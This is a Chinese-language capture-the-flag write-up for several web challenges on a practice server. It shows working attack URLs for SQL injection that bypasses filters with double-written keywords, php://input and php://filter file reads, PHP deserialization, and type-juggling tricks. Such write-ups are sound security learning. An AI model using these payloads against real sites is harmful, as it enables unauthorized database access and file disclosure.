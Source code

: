 ## web1http://123.206.31.85:10001/

变量覆盖,提交a,c两个变量为空就行了,http://123.206.31.85:10001/?a=&c=  得到flag

## 流量分析.rar
直接追踪telnet的tcp流即可

## web11 http://123.206.31.85:3030/
进去页面为空,访问robots.txt就可以知道题目在shell.php.  
substr(md5(XXXX), 0, 6) = xxxx的形式,用脚本爆破md5即可,参考百度别人写的脚本.

## web13 http://123.206.31.85:10013
响应头里面有一项:  
Password:ZmxhZ3szYzAwZGFhN2VkMTIwM2MyODQ4MGY0OGZmZjc5M2E4Nn0=
base64解密即可

## Sql injection web18 http://123.206.31.85:10018
sql关键字要进行双写绕过过滤  
>查字段数 http://123.206.31.85:10018/list.php?id=1%27%20oorrder%20by%204--+   

>回显位置 http://123.206.31.85:10018/list.php?id=-1%27%20uniunionon%20seselectlect%201,2,3--+  

>查表名
http://123.206.31.85:10018/list.php?id=-1%27%20uniunionon%20seselectlect%201,group_concat(table_name),3%20from%20infoorrmation_schema.tables%20where%20table_schema=database()--+
返回有 ctf,flag两个表 

>查flag表中的字段  http://123.206.31.85:10018/list.php?id=-1%27%20uniunionon%20seselectlect%201,group_concat(column_name),3%20from%20infoorrmation_schema.columns%20where%20table_name=%27flag%27--+%20id,flag%203  

>查flag字段的值 http://123.206.31.85:10018/list.php?id=-1%27%20uniunionon%20seselectlect%201,flag,3%20from%20flag--+ 可直接得到flag


## web20 http://123.206.31.85:10020/


## vim编辑器 [web15](  http://123.206.31.85:10015/)
根据提示,感觉是vim文件泄露,尝试index.php~和index.php.wsp,最后index.php~可以得到源码  
```php
<?php
header('content-type:text/html;charset=utf-8');
include './flag.php';
error_reporting(0);
if(empty($_GET['id'])){
    header('location:./1ndex.php');
}else{
	$id = $_GET['id'];
	if (!is_numeric($id)) {
		$id = intval($id);
		switch ($id) {
			case $id>=0:
				echo "快出去吧，走错路了～～～<br>";
				echo "这么简单都不会么？";
				break;
			case $id>=10:
				exit($flag);
				break;
			default:
				echo "你走不到这一步的!";
				break;
		}
	}
}
?>
```
审计源码,要求提交的id不能为数字,关键在intval函数,我是提交字符串100a,则id=100,输出flag
http://123.206.31.85:10015/index.php?id=%22110a%22


## [web21]( http://123.206.31.85:10021/)
F12查看提示的源码
```php
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
```
file_get_contents函数要求user为文件,于是用php://input伪协议,尝试读取class.php  
http://123.206.31.85:10021/?user=php://input&file=php://filter/convert.base64-encode/resource=class.php  
同时post传入 admin

得到base64加密的密文,解密得到class.php 
```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?>
```
同理,再读取index.php
```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    if(preg_match("/f1a9/",$file)){
        exit();
    }else{
        include($file); //class.php
        $pass = unserialize($pass);
        echo $pass;
    }
}else{
    echo "you are not admin ! ";
}
 
?>
 
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 --
```
这就可以清楚地发现是要用反序列化了,因为f1a9被过滤不能存在file变量中.读取f1a9.php关键是file_get_contents函数.   
直接new 一个class对象反序列化出来是:  
O:4:"Read":1:{s:4:"file";N;}  
>直接构造pyload,使得$this->file为f1a9.php:  
O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}  

>最终  
http://123.206.31.85:10021/?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}  
同时post提交admin  
flag在注释中,抓包提交的话可以直接看到


### 本身比较菜,最近又比较忙,没有跟上师傅们的节奏...
### 未完待续...